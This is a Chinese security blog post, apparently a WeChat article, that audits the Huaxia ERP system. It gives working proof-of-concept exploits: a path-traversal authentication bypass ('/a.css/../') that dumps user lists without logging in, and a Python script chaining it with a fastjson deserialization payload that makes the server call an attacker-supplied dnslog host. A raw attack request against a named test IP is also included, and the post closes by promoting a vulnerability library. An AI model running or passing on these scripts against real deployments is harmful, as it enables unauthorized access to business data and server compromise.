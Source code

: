 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/eHjaIrqgYFiw5DVLg7BY8w)

开场还是这个测试靶场

<table cellspacing="0" cellpadding="0"><tbody><tr><td width="132" valign="top"><p>靶场地址</p></td><td width="421" colspan="2" valign="top"><p>http://47.116.69.14</p></td></tr><tr><td width="132" valign="top"><p>账户密码</p></td><td width="210" valign="top"><p><strong>jsh</strong></p></td><td width="210" valign="top"><p><strong>123456</strong></p></td></tr></tbody></table>

**1、描述**

  

华夏 ERP 基于 SpringBoot 框架和 SaaS 模式，可以算作是国内人气比较高的一款 ERP 项目，但经过源码审计发现其存在多个漏洞，本篇为授权绕过漏洞，后台命令执行漏洞，然后再打一个组合拳进行未授权命令执行。

  

  

  

  

  

**2、影响范围**

  

华夏 ERP  

  

  

  

  

  

**3、漏洞复现**

  

从开源项目本地搭建来进行审计，源码下载地址：

百度网盘 https://pan.baidu.com/s/1jlild9uyGdQ7H2yaMx76zw  提取码: 814g  

  

  

  

  

  

一、授权绕过漏洞  

漏洞复现：

该项目利用 filter 做登录判断

```
com.jsh.erp.filter.LogCostFilter
```

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1lulNzv5KRpVwJSVicg7fDNmibfiaACCKhibngoicFWgRJR5DeaYWfiaiakibBw/640?wx_fmt=png)

其中值得关注的是 ignoredList，如果 url 中存在 ignoredList 则不需要认证。

我们去寻找 ignoredList，发现它在同一文件内，如下：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1oNuXzoUPtOslQvkiaIOJg9svB8ynC5N80PWAm0WwvNsMAjYd7QwB33A/640?wx_fmt=png)

可以看到匹配的值为：

```
.css#.js#.jpg#.png#.gif#.ico
```

那么绕过认证的 payload 我们就可以随便写了，如下：

```
/a.css/../
```

如未登录查看系统配置：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1AZnXKmRytNy5nmnwyN5roTvW2IlJ0GFzQibH3M0FeeqYqM0uUzBXV8g/640?wx_fmt=png)

以上数据都为测试生成的数据，为虚假数据，如有雷同纯属巧合

```
GET /a.css/../systemConfig/list?search=%7B%22companyName%22%3A%22%22%7D¤tPage=1&pageSize=10 HTTP/1.1
Host: 47.116.69.14
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
X-Requested-With: XMLHttpRequest
Referer: http://47.116.69.14/pages/manage/systemConfig.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close
```

来个 POC 吧，验证起来方便

使用方式：

```
python3 华夏erp未授权.py http://ip:port
```

源码：  

```
import sys,requests

def main(ip):
    url = "{ip}/a.css/../user/getUserList?search=%7B%22userName%22%3A%22%22%2C%22loginName%22%3A%22%22%7D¤tPage=1&pageSize=15".format(ip=ip)
    res = requests.get(url,verify=False,timeout=5)
    if res.status_code == 200:
        print("+ {ip} 访问成功\n{data}".format(ip=ip,data=res.text))
main(sys.argv[1])
'''
```

二、后台命令执行漏洞

漏洞复现：  

漏洞代码位置：

```
com.jsh.erp.controller.DepotHeadController
```

漏洞代码分析：

pom.xml 文件中引用了 fastjson，且版本为 1.2.55  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1WyEC7eKX1f1ZqLwZyIBKMcEf4zfRPk5WnRKTnz1CXqiaglgEtPwc7Dg/640?wx_fmt=png)

查看代码发现 com.jsh.erp.controller.DepotController 存在反序列化

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1E2N9U6NT4YvEHeab9Vqk9uu9xicLFUVpZ80zerTfiaSicFqyP6oia5xzFA/640?wx_fmt=png)

但在靶场站点未找到该接口，推测靶场站代码未更新，发现流量中存在另一个使用 search 参数的接口，进行反序列化测试：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1OUTXicM95CXMicg3tpucqzQZ6a8JkLKFB5zovH1rrqib2FeuxmjkPgG9g/640?wx_fmt=png)

对了要 URL 编码一下。。。  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1cQQlsibC7weuRfXcHxYcvYaQ2AGQial1NXje3icyvxCjibJibysLjryzLGA/640?wx_fmt=png)

接下来就是见证奇迹的时刻，dnslog 收到 dns 请求！

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn169oG7ibicZvvnuNToAj3iaXoOjf04yZicHRibe2f9fMR9hqbWdyzj5Rmiacw/640?wx_fmt=png)

三、组合拳 - 未授权命令执行  

利用方式：

很简单，就是两个漏洞合并一下，如下：

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1CP9YjJibpxp9U0Hq3GfGANLNQofDQJzjtBh49VHU3XaibXyqxYJrsib4w/640?wx_fmt=png)

可以看到我是没有携带 Cookie 的，dnslog 依然收到了请求  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1E0Oo36VuxIf469XCMEsPypJmmrP1akRTpw2RlpIQ4hZ7E0icOCGgyiaQ/640?wx_fmt=png)

组合拳的 POC：  

使用方法：

```
python3 华夏erp_fastjson.py x.x.x.x 80 qingy.dnslog.cn (替换你的dnslog地址)
```

源码：

```
import socket,sys,re

def SendGet(res,ip,port):
    request = re.sub('[\r\n]','\r\n',res)
    port = int(port)
    sock = socket.socket()   # 建立socket
    sock.connect((ip, port))    # 远程连接
    sock.send(request.encode('ascii'))  # 向socket发送数据
    response = b''   
    chunk = sock.recv(4096)    # 从socket接收数据
    print(chunk.decode())
def main(ip,port,dnslog):
    test = '{"@type":"java.net.Inet4Address","val":"'+ dnslog +'"}'
    test = test.encode('utf-8')
    test = ''.join('%{:02X}'.format(x) for x in test)
    res = '''GET /a.css/../depotHead/list?search={data}¤tPage=1&pageSize=10 HTTP/1.1
Host: {host}
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36 Edg/87.0.664.47
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

'''.format(data=test,host=ip+':'+port)
    #print(res)
    SendGet(res,ip,port)
main(sys.argv[1],sys.argv[2],sys.argv[3])
```

最后再给大家介绍一下漏洞库，地址：wiki.xypbk.com  

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1GjZWV69BXhbVdDPh2GNcQzoTyXn20iaOhsIGsxPPicJz6u7Rkq5weKmQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1vUPmy8nUyUcxBicqJEtxo3ib4YzTQQEWd5cotecmuB0pZy4AKgAdhapg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1SjnVpDzicoVx6nMShk1Ou1jtKYYicsvNHt3DCWZnM5bvTnW56wcFwD9Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/nMQkaGYuOibDrnboUobzRQh0afompnvn1Hxk0rhBSk7Oib2ZiafD0w9T9YBDffv171WjmnvFxlktv5UZiahYwytZ7w/640?wx_fmt=png)

本站暂不开源，因为想控制影响范围，若因某些人乱搞，造成了严重后果，本站将即刻关闭。

漏洞库内容来源于互联网 && 零组文库 &&peiqi 文库 && 自挖漏洞 && 乐于分享的师傅，供大家方便检索，绝无任何利益。  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

若有愿意分享自挖漏洞的佬师傅请公众号后台留言，本站将把您供上，并在此署名，天天烧香那种！

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/nMQkaGYuOibDavXvuud5F09Tjl7NMvU8Yzhia63knJ4QJFvO4WBfd6KQazjtuPC7uqNBt5gE06ia7GjOVn2RFOicNA/640?wx_fmt=jpeg)

扫取二维码获取

更多精彩

![](https://mmbiz.qpic.cn/mmbiz_png/TlgiajQKAFPtOYY6tXbF7PrWicaKzENbNF71FLc4vO5nrH2oxBYwErfAHKg2fD520niaCfYbRnPU6teczcpiaH5DKA/640?wx_fmt=png)

Qingy 之安全  

![](https://mmbiz.qpic.cn/mmbiz_png/Y8TRQVNlpCW6icC4vu5Pl5JWXPyWdYvGAyfVstVJJvibaT4gWn3Mc0yqMQtWpmzrxibqciazAr5Yuibwib5wILBINfuQ/640?wx_fmt=png)

公众号

![](https://mmbiz.qpic.cn/mmbiz_png/3pKe8enqDsSibzOy1GzZBhppv9xkibfYXeOiaiaA8qRV6QNITSsAebXibwSVQnwRib6a2T4M8Xfn3MTwTv1PNnsWKoaw/640?wx_fmt=png)

点个在看你最好看